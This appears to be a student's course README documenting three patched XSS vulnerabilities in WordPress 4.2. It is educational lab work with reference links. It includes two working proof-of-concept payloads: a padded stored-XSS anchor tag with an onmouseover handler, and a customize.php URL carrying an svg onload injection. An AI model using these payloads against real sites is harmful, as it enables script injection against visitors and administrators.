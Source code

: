 
# Project 7 - WordPress Pentesting

Time spent: **3** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: ![alt-text](./Unauthorized XSS.gif)
  - [X] Steps to recreate: 
  		a. paste the following code into a post and post it on to the website:

  		`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`

  - [X] Affected source code:
    - [Link 1](https://wpvulndb.com/vulnerabilities/7945)
1. Authenticated Cross-Site Scripting (XSS)	
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [X] GIF Walkthrough: ![alt-text](./XSS3.gif)
  - [X] Steps to recreate: 
  		a. Copy and paste the following code into any post and post it on the website:

  		`http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(2)>`
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87)
1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [X] GIF Walkthrough: ![alt-text](./XSS2.gif)
  - [X] Steps to recreate: 
  		a. Paste the following code into any post and post it on the website
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33549)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Setting up vagrant was alittle chanllenging at first but once it was installed it was pretty easy.

## License

    Copyright [2018] [Yuan Zhou]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.